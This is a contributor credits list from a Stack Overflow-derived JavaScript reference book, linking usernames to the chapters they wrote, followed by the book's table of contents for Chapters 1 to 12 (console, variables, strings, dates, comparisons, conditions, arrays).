  [M. Erraysy](https://stackoverflow.com/users/5524646/)    Chapter 12

  [Maciej Gurban](https://stackoverflow.com/users/2066118/) Chapters 12 and 65

  [Madara Uchiha](https://stackoverflow.com/users/871050/)  Chapters 19, 20, 59, 60, 81 and 82

  [maheeka](https://stackoverflow.com/users/1403246/)       Chapter 9

  [maioman](https://stackoverflow.com/users/2417031/)       Chapters 19 and 42

  [Marco Bonelli](https://stackoverflow.com/users/3889449/) Chapters 3, 53 and 96

  [Marco                                                    Chapters 3, 10, 13, 17, 20, 27, 30, 42, 46, 56,
  Scabbiolo](https://stackoverflow.com/users/2002588/)      57, 68, 69, 81 and 90

  [Marina K.](https://stackoverflow.com/users/5311928/)     Chapters 10 and 104

  [mark](https://stackoverflow.com/users/2682218/)          Chapters 19 and 56

  [Mark                                                     Chapters 5 and 99
  Schultheiss](https://stackoverflow.com/users/125981/)     

  [mash](https://stackoverflow.com/users/6572285/)          Chapter 10

  [MasterBob](https://stackoverflow.com/users/5535493/)     Chapters 1, 19, 24, 25 and 81

  [Matas                                                    Chapters 1, 6 and 42
  Vaitkevicius](https://stackoverflow.com/users/1509764/)   

  [Mathias Bynens](https://stackoverflow.com/users/96656/)  Chapter 1

  [Matt Lishman](https://stackoverflow.com/users/3379536/)  Chapter 57

  [Matt S](https://stackoverflow.com/users/163024/)         Chapter 31

  [Mattew Whitt](https://stackoverflow.com/users/3264217/)  Chapter 42

  [Matthew Crumley](https://stackoverflow.com/users/2214/)  Chapters 18, 67, 84 and 104

  [mauris](https://stackoverflow.com/users/126039/)         Chapters 33 and 56

  [Max Alcala](https://stackoverflow.com/users/2785476/)    Chapters 12, 19, 41 and 56

  [Maximillian                                              Chapter 42
  Laumeister](https://stackoverflow.com/users/2234742/)     

  [Md. Mahbubul                                             Chapter 13
  Haque](https://stackoverflow.com/users/1878457/)          

  [MEGADEVOPS](https://stackoverflow.com/users/4786134/)    Chapter 1

  [MegaTom](https://stackoverflow.com/users/3990897/)       Chapter 11
  -

  
  [Meow](https://stackoverflow.com/users/5050271/)             Chapters 7, 11, 14, 19, 59 and 62
   
  [metal03326](https://stackoverflow.com/users/4471582/)       Chapters 92 and 99

  [Michal                                                      Chapter 17
  Pietraszko](https://stackoverflow.com/users/6599814/)        

  [Michał                                                      Chapters 1, 35, 38, 43, 76, 77 and 81
  Perłakowski](https://stackoverflow.com/users/3853934/)       

  [Michiel](https://stackoverflow.com/users/2245950/)          Chapter 12

  [Mijago](https://stackoverflow.com/users/3909575/)           Chapter 97

  [Mike C](https://stackoverflow.com/users/371184/)            Chapters 10, 11, 12, 13, 18, 19, 37, 57 and
                                                               65

  [Mike McCaughan](https://stackoverflow.com/users/215552/)    Chapters 3, 8, 9, 12, 13, 15 and 42

  [Mikhail](https://stackoverflow.com/users/5526354/)          Chapters 5, 7, 12, 14, 33, 39, 45, 55 and
                                                               58

  [Mikki](https://stackoverflow.com/users/4236520/)            Chapter 97

  [Mimouni](https://stackoverflow.com/users/2822643/)          Chapters 1 and 12

  [miquelarranz](https://stackoverflow.com/users/2280356/)     Chapter 89

  [Mobiletainment](https://stackoverflow.com/users/1265240/)   Chapter 89

  [Mohamed El](https://stackoverflow.com/users/4517814/)       Chapter 55

  [monikapatel](https://stackoverflow.com/users/4426282/)      Chapter 5

  [Morteza Tourani](https://stackoverflow.com/users/3078890/)  Chapter 12

  [Motocarota](https://stackoverflow.com/users/593963/)        Chapter 42

  [Mottie](https://stackoverflow.com/users/145346/)            Chapters 10, 12, 14 and 18

  [murrayju](https://stackoverflow.com/users/866224/)          Chapter 81

  [n4m31ess_c0d3r](https://stackoverflow.com/users/1726659/)   Chapter 10

  [Nachiketha](https://stackoverflow.com/users/1657018/)       Chapter 63

  [Naeem Shaikh](https://stackoverflow.com/users/3556874/)     Chapters 42 and 69

  [nalply](https://stackoverflow.com/users/220060/)            Chapters 10 and 42

  [Naman Sancheti](https://stackoverflow.com/users/3709792/)   Chapters 1 and 50

  [nasoj1100](https://stackoverflow.com/users/4842671/)        Chapter 12

  [Nathan Tuggy](https://stackoverflow.com/users/4099598/)     Chapter 7

  [naveen](https://stackoverflow.com/users/17447/)             Chapter 65

  [ndugger](https://stackoverflow.com/users/1408759/)          Chapters 17, 19, 22 and 62

  [Neal](https://stackoverflow.com/users/561731/)              Chapters 12, 13, 19, 22, 27, 36 and 62

  [Nelson Teixeira](https://stackoverflow.com/users/2752520/)  Chapter 12

  [nem035](https://stackoverflow.com/users/3928341/)           Chapters 10, 12, 20, 60 and 65

  [nhahtdh](https://stackoverflow.com/users/1400768/)          Chapter 31

  [Nhan](https://stackoverflow.com/users/2571493/)             Chapters 12 and 35

  [ni8mr](https://stackoverflow.com/users/3458727/)            Chapters 10 and 18

  [nicael](https://stackoverflow.com/users/2963652/)           Chapters 11, 42, 44 and 99

  [Nicholas Montaño](https://stackoverflow.com/users/4883095/) Chapter 102

  [Nick](https://stackoverflow.com/users/2639721/)             Chapter 1

  [Nick Larsen](https://stackoverflow.com/users/178082/)       Chapter 61

  [NickHTTPS](https://stackoverflow.com/users/1167472/)        Chapter 63

  [Nikita Kurtin](https://stackoverflow.com/users/3219049/)    Chapters 99 and 104

  [Nikola Lukic](https://stackoverflow.com/users/1513187/)     Chapters 58 and 101

  [Nina Scholz](https://stackoverflow.com/users/1447675/)      Chapters 12 and 40

  [Nisarg](https://stackoverflow.com/users/5894241/)           Chapter 66

  [npdoty](https://stackoverflow.com/users/108575/)            Chapter 71

  [nseepana](https://stackoverflow.com/users/6709129/)         Chapter 104

  [Nuri Tasdemir](https://stackoverflow.com/users/1519458/)    Chapters 42 and 62

  [nus](https://stackoverflow.com/users/1115652/)              Chapter 19

  [nylki](https://stackoverflow.com/users/2921415/)            Chapter 1

  [Oriol](https://stackoverflow.com/users/1529630/)            Chapter 10

  [Ortomala Lokni](https://stackoverflow.com/users/1807667/)   Chapter 10

  [orvi](https://stackoverflow.com/users/3654356/)             Chapters 1 and 18

  [Oscar Jara](https://stackoverflow.com/users/1178686/)       Chapter 10

  [Ovidiu Dolha](https://stackoverflow.com/users/5379496/)     Chapter 93
  

[Ozan](https://stackoverflow.com/users/4180481/) Chapter 75

[oztune](https://stackoverflow.com/users/906311/) Chapters 5, 18, 55 and
57

[P.J.Meisch](https://stackoverflow.com/users/4393565/) Chapter 62
[PageYe](https://stackoverflow.com/users/6488128/) Chapter 10
>
[Pankaj Upadhyay](https://stackoverflow.com/users/405630/) Chapter 62
[Parvez Rahaman](https://stackoverflow.com/users/3324481/) Chapters 30
and 72

[patrick96](https://stackoverflow.com/users/5363071/) Chapter 42

[Paul S.](https://stackoverflow.com/users/1615483/) Chapters 7, 10, 19,
27, 31 and 62

[Pawel Dubiel](https://stackoverflow.com/users/706466/) Chapters 17
and 59 [PedroSouki](https://stackoverflow.com/users/4166211/) Chapters
23 and 65

[pensan](https://stackoverflow.com/users/1162597/) Chapter 14

[Peter Bielak](https://stackoverflow.com/users/2051835/) Chapter 94

[Peter G](https://stackoverflow.com/users/4504895/) Chapter 5

[Peter LaBanca](https://stackoverflow.com/users/7513380/) Chapter 1

[Peter Olson](https://stackoverflow.com/users/546661/) Chapter 13
[Peter Seliger](https://stackoverflow.com/users/2627243/) Chapter 22
[phaistonian](https://stackoverflow.com/users/422839/) Chapter 12
>
[Phil](https://stackoverflow.com/users/6429774/) Chapter 13
[pietrovismara](https://stackoverflow.com/users/3142367/) Chapter 89
[Pinal](https://stackoverflow.com/users/2525067/) Chapters 19, 42 and
55 [pinjasaur](https://stackoverflow.com/users/6357231/) Chapter 4
[PitaJ](https://stackoverflow.com/users/847382/) Chapter 65
>
[Pranav C Balan](https://stackoverflow.com/users/3037257/) Chapter 12
[programmer5000](https://stackoverflow.com/users/6560716/) Chapter 95
[ProllyGeek](https://stackoverflow.com/users/3025259/) Chapters 20, 65
and 79 [pzp](https://stackoverflow.com/users/3155933/) Chapters 8, 30
and 71

[Qianyue](https://stackoverflow.com/users/1165178/) Chapters 12, 60 and
62

[QoP](https://stackoverflow.com/users/4484822/) Chapters 12, 19, 22, 35,
42 and 57

[Quartz Fog](https://stackoverflow.com/users/6513795/) Chapters 31 and
54

[Quill](https://stackoverflow.com/users/3296811/) Chapters 7 and 42

[Racil Hilan](https://stackoverflow.com/users/3215948/) Chapter 34
[Rafael Dantas](https://stackoverflow.com/users/3504913/) Chapter 12

[Rahul Arora](https://stackoverflow.com/users/5433342/) Chapters 20 and
29

[Rajaprabhu Aravindasamy](https://stackoverflow.com/users/1209018/)
Chapter 13

[Rajesh](https://stackoverflow.com/users/3783478/) Chapter 10

[Rakitić](https://stackoverflow.com/users/6290553/) Chapter 1

[RamenChef](https://stackoverflow.com/users/6392939/) Chapter 14

[Randy](https://stackoverflow.com/users/1691311/) Chapters 19 and 50

[Raphael Schweikert](https://stackoverflow.com/users/11940/) Chapter
10 [rfsbsb](https://stackoverflow.com/users/1949694/) Chapter 67
[richard](https://stackoverflow.com/users/2958281/) Chapter 37

[Richard Hamilton](https://stackoverflow.com/users/4703663/) Chapters 7,
10, 12, 14, 31, 48 and 99

[Richard Turner](https://stackoverflow.com/users/12559/) Chapter 62
[riyaz](https://stackoverflow.com/users/6611700/) Chapter 42
[Roamer](https://stackoverflow.com/users/3478010/) Chapter 42

[Rohit Jindal](https://stackoverflow.com/users/4116300/) Chapters 30 and
40

[Rohit Kumar](https://stackoverflow.com/users/6076713/) Chapter 57

[Rohit Shelhalkar](https://stackoverflow.com/users/4396403/) Chapter 5

[Roko C. Buljan](https://stackoverflow.com/users/383904/) Chapters 4, 7,
12, 14, 33, 44, 45, 89 and 106

[rolando](https://stackoverflow.com/users/3384695/) Chapters 12, 13, 18
and 19

[rolfedh](https://stackoverflow.com/users/3005258/) Chapter 19

[Ronen Ness](https://stackoverflow.com/users/1134649/) Chapters 12, 19,
32 and 43

[ronnyfm](https://stackoverflow.com/users/204968/) Chapter 1

  
  [royhowie](https://stackoverflow.com/users/2476755/)           Chapter 35
   
  [Ruhul Amin](https://stackoverflow.com/users/1960558/)         Chapter 41

  [rvighne](https://stackoverflow.com/users/1079573/)            Chapters 13, 19, 22, 45 and 88

  [Ry](https://stackoverflow.com/users/707111/)                  Chapter 31

  [S Willis](https://stackoverflow.com/users/5795554/)           Chapter 8

  [sabithpocker](https://stackoverflow.com/users/427146/)        Chapter 7

  [Sagar V](https://stackoverflow.com/users/2427065/)            Chapters 19, 29 and 61

  [Sammy I.](https://stackoverflow.com/users/3413536/)           Chapter 20

  [Sandro](https://stackoverflow.com/users/107797/)              Chapter 12

  [SarathChandra](https://stackoverflow.com/users/2869791/)      Chapter 11

  [Saroj Sasmal](https://stackoverflow.com/users/5293076/)       Chapter 1

  [Scimonster](https://stackoverflow.com/users/3187556/)         Chapter 24

  [Sean Vieira](https://stackoverflow.com/users/135978/)         Chapter 27

  [SeanKendle](https://stackoverflow.com/users/1410567/)         Chapter 1

  [SeinopSys](https://stackoverflow.com/users/1344955/)          Chapters 1 and 96

  [SEUH](https://stackoverflow.com/users/2517393/)               Chapter 61

  [SgtPooki](https://stackoverflow.com/users/592760/)            Chapter 97

  [shaedrich](https://stackoverflow.com/users/7451109/)          Chapter 70

  [shaN](https://stackoverflow.com/users/4221558/)               Chapter 90

  [Shawn](https://stackoverflow.com/users/430213/)               Chapter 60

  [Shog9](https://stackoverflow.com/users/811/)                  Chapters 19 and 59

  [Shrey Gupta](https://stackoverflow.com/users/1543403/)        Chapter 12

  [Sibeesh Venu](https://stackoverflow.com/users/5550507/)       Chapter 56

  [sielakos](https://stackoverflow.com/users/6356166/)           Chapters 12, 19 and 50

  [Siguza](https://stackoverflow.com/users/2302862/)             Chapter 40

  [simonv](https://stackoverflow.com/users/6546775/)             Chapter 29

  [SirPython](https://stackoverflow.com/users/3424096/)          Chapter 5

  [smallmushroom](https://stackoverflow.com/users/7166588/)      Chapter 18

  [Spencer Wieczorek](https://stackoverflow.com/users/3149020/)  Chapters 7, 10, 15 and 65

  [spirit](https://stackoverflow.com/users/6245875/)             Chapter 35

  [splay](https://stackoverflow.com/users/1392998/)              Chapters 7, 10 and 40

  [Sreekanth](https://stackoverflow.com/users/6794233/)          Chapter 89

  [ssc](https://stackoverflow.com/users/3233827/)                Chapter 1

  [stackoverfloweth](https://stackoverflow.com/users/3511012/)   Chapter 13

  [Stephen Leppik](https://stackoverflow.com/users/6388243/)     Chapter 40

  [Steve Greatrex](https://stackoverflow.com/users/261782/)      Chapter 42

  [Stewartside](https://stackoverflow.com/users/2889988/)        Chapter 14

  [Stides](https://stackoverflow.com/users/3940327/)             Chapter 60

  [still_learning](https://stackoverflow.com/users/2948765/)     Chapters 14 and 94

  [styfle](https://stackoverflow.com/users/266535/)              Chapter 20

  [sudo bangbang](https://stackoverflow.com/users/3951782/)      Chapter 42

  [Sumit](https://stackoverflow.com/users/2741678/)              Chapter 11

  [Sumner Evans](https://stackoverflow.com/users/2319844/)       Chapters 99 and 102

  [Sumurai8](https://stackoverflow.com/users/2209007/)           Chapters 8, 10, 13, 14, 17, 35 and 56

  [Sunny R Gupta](https://stackoverflow.com/users/1477051/)      Chapter 56

  [svarog](https://stackoverflow.com/users/1410465/)             Chapters 7, 17, 43, 80 and 90

  [Sverri M. Olsen](https://stackoverflow.com/users/1300892/)    Chapter 1

  [SZenC](https://stackoverflow.com/users/3315779/)              Chapters 1, 10, 11, 13, 14, 18, 19, 30, 31, 32,
                                                                 36, 59, 62, 80 and 97

  [Tacticus](https://stackoverflow.com/users/3362188/)           Chapter 96

  [tandrewnichols](https://stackoverflow.com/users/1437845/)     Chapter 19

  [Tanmay Nehete](https://stackoverflow.com/users/2608080/)      Chapter 19

  [Taras Lukavyi](https://stackoverflow.com/users/900982/)       Chapter 59

  [tcooc](https://stackoverflow.com/users/368772/)               Chapter 42
  

  -
  [teppic](https://stackoverflow.com/users/3591528/)              Chapter 42
   
  [Thomas Leduc](https://stackoverflow.com/users/1204267/)        Chapter 31

  [Thriggle](https://stackoverflow.com/users/2701677/)            Chapters 1 and 19

  [Ties](https://stackoverflow.com/users/5171528/)                Chapter 74

  [tiffon](https://stackoverflow.com/users/1888292/)              Chapter 101

  [Tim](https://stackoverflow.com/users/4714902/)                 Chapter 30

  [Tim Rijavec](https://stackoverflow.com/users/2365792/)         Chapter 86

  [Tiny Giant](https://stackoverflow.com/users/4639281/)          Chapter 36

  [tjfwalker](https://stackoverflow.com/users/2180523/)           Chapter 11

  [tnga](https://stackoverflow.com/users/5221347/)                Chapter 1

  [Tolen](https://stackoverflow.com/users/5593085/)               Chapter 1

  [Tomás Cañibano](https://stackoverflow.com/users/5384592/)      Chapters 7 and 59

  [Tomboyo](https://stackoverflow.com/users/4816074/)             Chapter 17

  [tomturton](https://stackoverflow.com/users/1485351/)           Chapter 65

  [ton](https://stackoverflow.com/users/2397613/)                 Chapter 56

  [Tot Zam](https://stackoverflow.com/users/4660897/)             Chapter 36

  [towerofnix](https://stackoverflow.com/users/4633828/)          Chapter 38

  [transistor09](https://stackoverflow.com/users/420597/)         Chapter 33

  [Traveling Tech Guy](https://stackoverflow.com/users/19856/)    Chapter 12

  [Travis Acton](https://stackoverflow.com/users/7675833/)        Chapter 1

  [Trevor Clarke](https://stackoverflow.com/users/3998484/)       Chapters 8, 14 and 46

  [trincot](https://stackoverflow.com/users/5459839/)             Chapters 19 and 35

  [Tschallacka](https://stackoverflow.com/users/1356107/)         Chapter 65

  [Tushar](https://stackoverflow.com/users/2025923/)              Chapters 1 and 31

  [user2314737](https://stackoverflow.com/users/2314737/)         Chapters 8, 12, 14, 19, 35, 50, 59 and 104

  [user3882768](https://stackoverflow.com/users/3882768/)         Chapter 11

  [Vaclav](https://stackoverflow.com/users/2508019/)              Chapter 12

  [VahagnNikoghosian](https://stackoverflow.com/users/1696972/)   Chapters 12 and 104

  [Vasiliy Levykin](https://stackoverflow.com/users/2582880/)     Chapters 3, 10 and 19

  [Ven](https://stackoverflow.com/users/1737909/)                 Chapters 1, 10 and 42

  [Victor Bjelkholm](https://stackoverflow.com/users/360186/)     Chapter 5

  [VisioN](https://stackoverflow.com/users/1249581/)              Chapters 12 and 52

  [Vlad Nicula](https://stackoverflow.com/users/665791/)          Chapter 62

  [Vladimir Gabrielyan](https://stackoverflow.com/users/4983595/) Chapter 42

  [wackozacko](https://stackoverflow.com/users/934420/)           Chapters 42 and 60

  [WebBrother](https://stackoverflow.com/users/2179748/)          Chapter 65

  [whales](https://stackoverflow.com/users/5285528/)              Chapters 8 and 18

  [Will](https://stackoverflow.com/users/145279/)                 Chapter 62

  [Wladimir Palant](https://stackoverflow.com/users/785541/)      Chapters 5, 10, 42 and 62

  [Wolfgang](https://stackoverflow.com/users/1979340/)            Chapter 30

  [wuxiandiejia](https://stackoverflow.com/users/4675056/)        Chapters 7, 12 and 43

  [XavCo7](https://stackoverflow.com/users/5522551/)              Chapters 1, 11, 12, 13, 18, 40, 50, 63, 64, 71,
                                                                  90 and 92

  [xims](https://stackoverflow.com/users/1539384/)                Chapter 1

  [YakovL](https://stackoverflow.com/users/3995261/)              Chapter 56

  [ymz](https://stackoverflow.com/users/4062197/)                 Chapter 19

  [Yosvel Quintero](https://stackoverflow.com/users/1932552/)     Chapters 1, 5, 12, 13, 14, 17, 22, 34, 35, 42
                                                                  and 104

  [Yumiko](https://stackoverflow.com/users/4168649/)              Chapter 33

  [Yury Fedorov](https://stackoverflow.com/users/4378400/)        Chapters 1 and 42

  [Zack Harley](https://stackoverflow.com/users/4785610/)         Chapter 56

  [Zaga](https://stackoverflow.com/users/6633643/)                Chapter 31

  [Zaz](https://stackoverflow.com/users/405550/)                  Chapter 42

  [zb\'](https://stackoverflow.com/users/815386/)                 Chapter 42

  [zer00ne](https://stackoverflow.com/users/2813224/)             Chapter 12
  -

  -
  [ZeroBased_IX](https://stackoverflow.com/users/1888402/)    Chapter 12
   -
  [Zhegan](https://stackoverflow.com/users/616717/)           Chapter 35

  [zhirzh](https://stackoverflow.com/users/1343488/)          Chapters 12, 14 and 19

  [Zirak](https://stackoverflow.com/users/617762/)            Chapter 56

  [Zoltan.Tamasi](https://stackoverflow.com/users/2081056/)   Chapter 42

  [zur4ik](https://stackoverflow.com/users/516245/)           Chapters 19 and 62

  [zurfyx](https://stackoverflow.com/users/2013580/)          Chapter 70

  [Zze](https://stackoverflow.com/users/3509591/)             Chapter 1
  

# You may also like

<!--last updated 8/22/24 Thu 2:22pm-->
<!--moved table of contents to here-->
[**About** [1](#about)](#about)

[**Chapter 1: Getting started with JavaScript** [2](#section)](#section)

[Section 1.1: Using console.log()
[2](#section-1.1-using-console.log)](#section-1.1-using-console.log)

[Section 1.2: Using the DOM API
[4](#section-1.2-using-the-dom-api)](#section-1.2-using-the-dom-api)

[Section 1.3: Using window.alert()
[5](#section-1.3-using-window.alert)](#section-1.3-using-window.alert)

[Section 1.4: Using window.prompt()
[6](#section-1.4-using-window.prompt)](#section-1.4-using-window.prompt)

[Section 1.5: Using window.confirm()
[7](#section-1.5-using-window.confirm)](#section-1.5-using-window.confirm)

[Section 1.6: Using the DOM API (with graphical text: Canvas, SVG, or
image file)
[8](#section-1.6-using-the-dom-api-with-graphical-text-canvas-svg-or-image-file)](#section-1.6-using-the-dom-api-with-graphical-text-canvas-svg-or-image-file)

[**Chapter 2: JavaScript Variables**
[10](#chapter-2-javascript-variables)](#chapter-2-javascript-variables)

[Section 2.1: Defining a Variable
[10](#section-2.1-defining-a-variable)](#section-2.1-defining-a-variable)

[Section 2.2: Using a Variable
[10](#section-2.2-using-a-variable)](#section-2.2-using-a-variable)

[Section 2.3: Types of Variables
[10](#section-2.3-types-of-variables)](#section-2.3-types-of-variables)

[Section 2.4: Arrays and Objects
[11](#section-2.4-arrays-and-objects)](#section-2.4-arrays-and-objects)

[**Chapter 3: Built-in Constants**
[12](#chapter-3-built-in-constants)](#chapter-3-built-in-constants)

[Section 3.1: null [12](#section-3.1-null)](#section-3.1-null)

[Section 3.2: Testing for NaN using isNaN()
[12](#section-3.2-testing-for-nan-using-isnan)](#section-3.2-testing-for-nan-using-isnan)

[Section 3.3: NaN [13](#section-3.3-nan)](#section-3.3-nan)

[Section 3.4: undefined and null
[14](#section-3.4-undefined-and-null)](#section-3.4-undefined-and-null)

[Section 3.5: Infinity and -Infinity
[15](#section-3.5-infinity-andinfinity)](#section-3.5-infinity-andinfinity)

[Section 3.6: Number constants
[15](#section-3.6-number-constants)](#section-3.6-number-constants)

[Section 3.7: Operations that return NaN
[16](#section-3.7-operations-that-return-nan)](#section-3.7-operations-that-return-nan)

[Section 3.8: Math library functions that return NaN
[16](#section-3.8-math-library-functions-that-return-nan)](#section-3.8-math-library-functions-that-return-nan)

[**Chapter 4: Comments** [17](#chapter-4-comments)](#chapter-4-comments)

[Section 4.1: Using Comments
[17](#section-4.1-using-comments)](#section-4.1-using-comments)

[Section 4.2: Using HTML comments in JavaScript (Bad practice)
[17](#section-4.2-using-html-comments-in-javascript-bad-practice)](#section-4.2-using-html-comments-in-javascript-bad-practice)

[**Chapter 5: Console** [19](#chapter-5-console)](#chapter-5-console)

[Section 5.1: Measuring time - console.time()
[22](#section-5.1-measuring-timeconsole.time)](#section-5.1-measuring-timeconsole.time)

[Section 5.2: Formatting console output
[23](#section-5.2-formatting-console-output)](#section-5.2-formatting-console-output)

[Section 5.3: Printing to a browser\'s debugging console
[24](#section-5.3-printing-to-a-browsers-debugging-console)](#section-5.3-printing-to-a-browsers-debugging-console)

[Section 5.4: Including a stack trace when logging - console.trace()
[26](#section-5.4-including-a-stack-trace-when-logging-console.trace)](#section-5.4-including-a-stack-trace-when-logging-console.trace)

[Section 5.5: Tabulating values - console.table()
[26](#section-5.5-tabulating-valuesconsole.table)](#section-5.5-tabulating-valuesconsole.table)

[Section 5.6: Counting - console.count()
[28](#section-5.6-countingconsole.count)](#section-5.6-countingconsole.count)

[Section 5.7: Clearing the console - console.clear()
[30](#section-5.7-clearing-the-consoleconsole.clear)](#section-5.7-clearing-the-consoleconsole.clear)

[Section 5.8: Displaying objects and XML interactively - console.dir(),
console.dirxml()
[30](#section-5.8-displaying-objects-and-xml-interactively-console.dir-console.dirxml)](#section-5.8-displaying-objects-and-xml-interactively-console.dir-console.dirxml)

[Section 5.9: Debugging with assertions - console.assert()
[32](#section-5.9-debugging-with-assertionsconsole.assert)](#section-5.9-debugging-with-assertionsconsole.assert)

[**Chapter 6: Datatypes in JavaScript**
[33](#chapter-6-datatypes-in-javascript)](#chapter-6-datatypes-in-javascript)

[Section 6.1: typeof [33](#section-6.1-typeof)](#section-6.1-typeof)

[Section 6.2: Finding an object\'s class
[34](#section-6.2-finding-an-objects-class)](#section-6.2-finding-an-objects-class)

[Section 6.3: Getting object type by constructor name
[34](#section-6.3-getting-object-type-by-constructor-name)](#section-6.3-getting-object-type-by-constructor-name)

[**Chapter 7: Strings** [37](#chapter-7-strings)](#chapter-7-strings)

[Section 7.1: Basic Info and String Concatenation
[37](#section-7.1-basic-info-and-string-concatenation)](#section-7.1-basic-info-and-string-concatenation)

[Section 7.2: Reverse String
[38](#section-7.2-reverse-string)](#section-7.2-reverse-string)

[Section 7.3: Comparing Strings Lexicographically
[39](#section-7.3-comparing-strings-lexicographically)](#section-7.3-comparing-strings-lexicographically)

[Section 7.4: Access character at index in string
[40](#section-7.4-access-character-at-index-in-string)](#section-7.4-access-character-at-index-in-string)

[Section 7.5: Escaping quotes
[40](#section-7.5-escaping-quotes)](#section-7.5-escaping-quotes)

[Section 7.6: Word Counter
[41](#section-7.6-word-counter)](#section-7.6-word-counter)

[Section 7.7: Trim whitespace
[41](#section-7.7-trim-whitespace)](#section-7.7-trim-whitespace)

[Section 7.8: Splitting a string into an array
[41](#section-7.8-splitting-a-string-into-an-array)](#section-7.8-splitting-a-string-into-an-array)

[Section 7.9: Strings are unicode
[42](#section-7.9-strings-are-unicode)](#section-7.9-strings-are-unicode)

[Section 7.10: Detecting a string
[42](#section-7.10-detecting-a-string)](#section-7.10-detecting-a-string)

[Section 7.11: Substrings with slice
[43](#section-7.11-substrings-with-slice)](#section-7.11-substrings-with-slice)

[Section 7.12: Character code
[43](#section-7.12-character-code)](#section-7.12-character-code)

[Section 7.13: String Representations of Numbers
[43](#section-7.13-string-representations-of-numbers)](#section-7.13-string-representations-of-numbers)

[Section 7.14: String Find and Replace Functions
[44](#section-7.14-string-find-and-replace-functions)](#section-7.14-string-find-and-replace-functions)

[Section 7.15: Find the index of a substring inside a string
[45](#section-7.15-find-the-index-of-a-substring-inside-a-string)](#section-7.15-find-the-index-of-a-substring-inside-a-string)

[Section 7.16: String to Upper Case
[45](#section-7.16-string-to-upper-case)](#section-7.16-string-to-upper-case)

[Section 7.17: String to Lower Case
[46](#section-7.17-string-to-lower-case)](#section-7.17-string-to-lower-case)

[Section 7.18: Repeat a String
[46](#section-7.18-repeat-a-string)](#section-7.18-repeat-a-string)

[**Chapter 8: Date** [47](#chapter-8-date)](#chapter-8-date)

[Section 8.1: Create a new Date object
[47](#section-8.1-create-a-new-date-object)](#section-8.1-create-a-new-date-object)

[Section 8.2: Convert to a string format
[49](#section-8.2-convert-to-a-string-format)](#section-8.2-convert-to-a-string-format)

[Section 8.3: Creating a Date from UTC
[50](#section-8.3-creating-a-date-from-utc)](#section-8.3-creating-a-date-from-utc)

[Section 8.4: Formatting a JavaScript date
[53](#section-8.4-formatting-a-javascript-date)](#section-8.4-formatting-a-javascript-date)

[Section 8.5: Get the number of milliseconds elapsed since 1 January
1970 00:00:00 UTC
[55](#section-8.5-get-the-number-of-milliseconds-elapsed-since-1-january-1970-000000-utc)](#section-8.5-get-the-number-of-milliseconds-elapsed-since-1-january-1970-000000-utc)

[Section 8.6: Get the current time and date
[55](#section-8.6-get-the-current-time-and-date)](#section-8.6-get-the-current-time-and-date)

[Section 8.7: Increment a Date Object
[56](#section-8.7-increment-a-date-object)](#section-8.7-increment-a-date-object)

[Section 8.8: Convert to JSON
[57](#section-8.8-convert-to-json)](#section-8.8-convert-to-json)

[**Chapter 9: Date Comparison**
[58](#chapter-9-date-comparison)](#chapter-9-date-comparison)

[Section 9.1: Comparing Date values
[58](#section-9.1-comparing-date-values)](#section-9.1-comparing-date-values)

[Section 9.2: Date Dierence Calculation
[59](#section-9.2-date-dierence-calculation)](#section-9.2-date-dierence-calculation)

[**Chapter 10: Comparison Operations**
[60](#chapter-10-comparison-operations)](#chapter-10-comparison-operations)

[Section 10.1: Abstract equality / inequality and type conversion
[60](#section-10.1-abstract-equality-inequality-and-type-conversion)](#section-10.1-abstract-equality-inequality-and-type-conversion)

[Section 10.2: NaN Property of the Global Object
[61](#section-10.2-nan-property-of-the-global-object)](#section-10.2-nan-property-of-the-global-object)

[Section 10.3: Short-circuiting in boolean operators
[63](#section-10.3-short-circuiting-in-boolean-operators)](#section-10.3-short-circuiting-in-boolean-operators)

[Section 10.4: Null and Undefined
[65](#section-10.4-null-and-undefined)](#section-10.4-null-and-undefined)

[Section 10.5: Abstract Equality (==)
[65](#section-10.5-abstract-equality)](#section-10.5-abstract-equality)

[Section 10.6: Logic Operators with Booleans
[66](#section-10.6-logic-operators-with-booleans)](#section-10.6-logic-operators-with-booleans)

[Section 10.7: Automatic Type Conversions
[67](#section-10.7-automatic-type-conversions)](#section-10.7-automatic-type-conversions)

[Section 10.8: Logic Operators with Non-boolean values (boolean
coercion)
[67](#section-10.8-logic-operators-with-non-boolean-values-boolean-coercion)](#section-10.8-logic-operators-with-non-boolean-values-boolean-coercion)

[Section 10.9: Empty Array
[68](#section-10.9-empty-array)](#section-10.9-empty-array)

[Section 10.10: Equality comparison operations
[68](#section-10.10-equality-comparison-operations)](#section-10.10-equality-comparison-operations)

[Section 10.11: Relational operators (\<, \<=, \>, \>=)
[70](#section-10.11-relational-operators)](#section-10.11-relational-operators)

[Section 10.12: Inequality
[71](#section-10.12-inequality)](#section-10.12-inequality)

[Section 10.13: List of Comparison Operators
[72](#section-10.13-list-of-comparison-operators)](#section-10.13-list-of-comparison-operators)

[Section 10.14: Grouping multiple logic statements
[72](#section-10.14-grouping-multiple-logic-statements)](#section-10.14-grouping-multiple-logic-statements)

[Section 10.15: Bit fields to optimise comparison of multi state data
[72](#section-10.15-bit-fields-to-optimise-comparison-of-multi-state-data)](#section-10.15-bit-fields-to-optimise-comparison-of-multi-state-data)

[**Chapter 11: Conditions**
[74](#chapter-11-conditions)](#chapter-11-conditions)

[Section 11.1: Ternary operators
[74](#section-11.1-ternary-operators)](#section-11.1-ternary-operators)

[Section 11.2: Switch statement
[75](#section-11.2-switch-statement)](#section-11.2-switch-statement)

[Section 11.3: If / Else If / Else Control
[77](#section-11.3-if-else-if-else-control)](#section-11.3-if-else-if-else-control)

[Section 11.4: Strategy
[78](#section-11.4-strategy)](#section-11.4-strategy)

[Section 11.5: Using \|\| and && short circuiting
[79](#section-11.5-using-and-short-circuiting)](#section-11.5-using-and-short-circuiting)

[**Chapter 12: Arrays** [80](#chapter-12-arrays)](#chapter-12-arrays)

[Section 12.1: Converting Array-like Objects to Arrays
[80](#section-12.1-converting-array-like-objects-to-arrays)](#section-12.1-converting-array-like-objects-to-arrays)

[Section 12.2: Reducing values
[82](#section-12.2-reducing-values)](#section-12.2-reducing-values)

[Section 12.3: Mapping values
[84](#section-12.3-mapping-values)](#section-12.3-mapping-values)

[Section 12.4: Filtering Object Arrays
[84](#section-12.4-filtering-object-arrays)](#section-12.4-filtering-object-arrays)

[Section 12.5: Sorting Arrays
[86](#section-12.5-sorting-arrays)](#section-12.5-sorting-arrays)

[Section 12.6: Iteration
[88](#section-12.6-iteration)](#section-12.6-iteration)

[Section 12.7: Destructuring an array
[92](#section-12.7-destructuring-an-array)](#section-12.7-destructuring-an-array)

